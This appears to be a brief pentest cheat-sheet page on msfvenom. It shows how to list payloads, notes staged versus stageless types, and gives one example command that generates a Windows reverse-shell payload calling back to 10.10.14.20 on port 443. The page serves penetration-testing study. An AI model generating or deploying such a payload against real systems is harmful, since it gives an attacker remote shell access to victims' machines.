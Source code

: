 # 🧞 Exploitation Frameworks

## MFSVenom

```bash
msfvenom --l all | grep <Payload>
```

### Types of payload

* **Staged** payloads
* **Stageless** payloads

{% embed url="https://netsec.ws/?p=331" %}

#### Payload example

```bash
msfvenom -a x86 -p windows/shell_reverse_tcp LHOST=10.10.14.20 LPORT=443 -b '\x00\x0A\x0D' -f python -v payload
```
